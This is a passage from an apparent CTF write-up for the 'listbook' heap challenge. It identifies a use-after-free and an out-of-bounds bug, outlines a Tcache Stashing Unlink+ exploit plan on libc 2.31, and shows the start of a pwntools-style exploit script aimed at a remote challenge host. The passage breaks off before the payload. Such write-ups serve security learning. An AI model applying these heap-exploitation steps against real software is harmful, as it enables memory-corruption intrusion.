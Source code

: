 ```asm
.text:00000000000013B9                 sub     eax, edx
.text:00000000000013BB                 mov     [rbp+tmp], al
.text:00000000000013BE ; 12:   return sum; ; sum = 0xffffff80 :)) 
```

So there are two bugs. 
1. UAF bug in `remove()` function	
2. OOB in `gen_hash()` function

Next i quickly wrote a fuzzer to allocate chunks randomly. And i got nice crashes. 
1. Tcahce dup
2. Unsorted bin corruption

[![asciicast](https://asciinema.org/a/459156.svg)](https://asciinema.org/a/459156)

Now lets build our exploit.
# Exploit
1. Use name "\x80" to trigger UAF in chunk idx 0 and 1.
2. Since it uses libc 2.31 and the allocation size is 0x31 and 0x211 ( smallbin size ) we use [Tcache Stashing Unlink+](https://qianfei11.github.io/2020/05/05/Tcache-Stashing-Unlink-Attack/#Tcache-Stashing-Unlink-Attack-Plus) attack to create overlapping chunks and overwrite fd of the tcache in the list.
```py
#!/usr/bin/env python3.9
# -*- coding: utf-8 -*-
__MODE__ ="PWN"

from rootkit import *
exe = context.binary = ELF('./listbook')

host = args.HOST or '111.186.58.249'
port = int(args.PORT or 20001)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

# -- Exploit goes here --

def option(choice):
    sla(">>", str(choice))
```